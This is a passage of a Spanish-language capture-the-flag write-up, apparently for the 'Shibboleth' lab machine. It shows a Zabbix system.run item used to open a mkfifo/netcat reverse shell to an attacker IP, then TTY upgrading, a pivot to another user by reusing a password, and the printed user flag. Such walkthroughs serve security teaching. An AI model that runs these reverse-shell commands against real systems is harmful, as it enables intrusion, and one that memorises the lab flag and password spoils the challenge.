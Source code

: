 En el boton Select elegimos de la lista desplegable la opción **`system.run`**, esta consta de dos opciones:
{% raw %}
~~~html
system.run[command,<mode>]
~~~
{% endraw %}

Tenemos dos posibles modos, **`wait`** y **`nowait`**, pero hay que tener en cuenta que la primera provoca que la conexión no sea estable,
así que elegimos la segunda y nos quedará de esta forma nuestro comando:

{% raw %}
~~~html
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.29 9999 >/tmp/f,nowait]
~~~
{% endraw %}

Ahora nos ponemos en escucha con **`nc -nlvp 9999`** y finalmente le damos al botón **`Test`** y **`Get value`** para obtener nuestra shell:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.11.124] 48474
/bin/sh: 0: can't access tty; job control turned off
$ whoami && id
zabbix
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

Hagamos el habitual tratamiento a la tty para poder movernos con comodidad por la shell.

```console
$ script /dev/null -c bash
Script started, file is /dev/null
zabbix@shibboleth:/$ ^Z
zsh: suspended  nc -nlvp 9999
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
zabbix@shibboleth:/$ export TERM=xterm
zabbix@shibboleth:/$ export SHELL=bash
```

Veamos dónde tenemos la flag del usuario:

```console
zabbix@shibboleth:/$ find / -type f -name user.txt 2>/dev/null
/home/ipmi-svc/user.txt
zabbix@shibboleth:/$ cat /home/ipmi-svc/user.txt
cat: /home/ipmi-svc/user.txt: Permission denied
```

No tenemos permisos porque somos el usuario **`Zabbix`**, tenemos que pivotar al usuario **`ipmi-svc`**, podemos intentar reutilizar la contraseña que ya tenemos.

```console
zabbix@shibboleth:/$ su ipmi-svc
Password: ilovepumkinpie1
ipmi-svc@shibboleth:/$ cat ~/user.txt
d340117f259139ebfa467d1db7595e2a
```
